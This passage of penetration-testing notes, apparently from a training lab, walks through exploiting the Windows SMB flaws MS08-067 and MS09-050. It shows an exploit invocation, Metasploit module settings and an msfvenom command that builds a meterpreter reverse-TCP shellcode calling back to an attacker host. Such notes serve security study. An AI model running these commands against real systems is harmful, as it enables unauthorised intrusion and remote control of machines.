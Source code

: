  ```bash
	# -a: architecture
	# --platform: The platform for payload

# We can now execute the exploit:
python ms08-067.py 10.11.1.227 2 139
	# 10.11.1.227: ip address
	# 2: OS type, in this case Windows 2000 universal
	# 139: port to use, can be also used on port 445
```   
  

## MS09-050 (SMB):
### Using Metasploit:
The remote machine is a Windows Server (R) 2008 Standard 6.0 and is runing the SMB protocol on port 445.  
This Windows Server version is vulnerable to the MS09-050 Vulnerability and a public exploit is available.  
more details can be found at the following URL:  
- https://www.rapid7.com/db/modules/exploit/windows/smb/ms09_050_smb2_negotiate_func_index 
  
Metasploit has a built-in exploit for this particular vulnerability, the source code can be found at the following URL:  
- [https://www.exploit-db.com/exploits/16363](https://www.exploit-db.com/exploits/16363)  
  
We can configure metasploit to exploit the remote vulnerability:
```bash
use exploit/windows/smb/ms09_050_smb2_negotiate_func_index
    # set RHOST 10.11.1.145
    # exploit
```

### No Metasploit
We can also exploit this vulnerability without using Metasploit. For example we can find a public code exploiting this vulnerability:  
- [https://github.com/SecWiki/winédows-kernel-exploits/blob/master/MS09-050/40280.py](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS09-050/40280.py)  
  
But before executing this code, we need to do a minor modification.  
We need to change the shellcode by one generated with msfvenom (METERPRETER): 
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.47 LPORT=443 EXITFUNC=thread -f python -v shell -n 38  
	# -p: payload  
	# LHOST/LPORT/EXITFUNC: payload options  
	# -f: format  
	# -v: variable name  
	# -n: Prepend a nopsled of [length] size on to the payload  
```

In this case, it is mandatory to use the -n parameter, if you are not using it the exploit will no work.  
If we want to trigger the reverse shell code, we need a payload of 362 bytes.  
  
We can now execute the payload, the error is necessary, if we want to trigger the malicious payload, we need to try an authentification, no matter if it failed or not.  
  
  

